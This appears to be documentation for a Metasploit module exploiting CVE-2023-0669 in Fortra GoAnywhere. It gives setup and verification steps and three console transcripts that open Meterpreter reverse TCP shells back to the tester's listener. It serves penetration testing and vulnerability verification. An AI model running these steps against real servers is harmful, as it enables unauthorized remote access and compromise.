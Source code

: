 ## Vulnerable Application

The vulnerable application is Fortra GoAnywhere. Currently, all versions are
vulnerable. The version I'm testing on is 7.1.1. You can get a free one-week
trial if you sign up on their site, but I don't think you actually need to
register - you can just create a free account and download the application.

## Verification Steps

1. Install the application
1. Start the application on the server with `./goanywhere.sh start`
1. Start msfconsole
1. Do: `use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669`
1. Set `LHOST` / `RHOST`
1. Do: `run`
1. You should get a shell.

## Options

### TARGET_URI

Set to the base path for the exploit - the default (`/goanywhere/lic/accept`) is usually fine.

### Version

The version number of the encryption, which is appended to the encrypted text.
Changing the target will change this, but normally you don't have to tweak this.

Some hosts (like in FIPS-compliant mode) don't allow version 1, but presumably
there are older hosts that don't support version 2.

### EncryptionKey / EncryptionIv / EncryptionAlgorithm

How to encrypt the object. Depending on the `Version`, there are different
keys. This is updated when you change TARGET and probably doesn't need to be
changed.

## Scenarios

### Version 7.1.1 on Fedora Linux

```
msf6 > use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.219:46860) at 2023-02-06 14:32:50 -0800

meterpreter > getuid
Server username: ron
```

### Using an earlier encryption version

```
msf6 > use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set TARGET 1
TARGET => 1

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > show options

[...]


Exploit target:

   Id  Name
   --  ----
   1   Version 1 Encryption



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.219:46862) at 2023-02-06 14:33:41 -0800

meterpreter > 
```

# Version 7.1.1 over HTTP

```
msf6 > use exploit/multi/http/fortra_goanywhere_rce_cve_2023_0669
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RHOSTS 10.0.0.219
RHOSTS => 10.0.0.219

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set RPORT 8000
RPORT => 8000

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false

msf6 exploit(multi/http/fortra_goanywhere_rce_cve_2023_0669) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (24380 bytes) to 10.0.0.219
[*] Meterpreter session 3 opened (10.0.0.179:4444 -> 10.0.0.219:46864) at 2023-02-06 14:35:06 -0800

meterpreter >
```
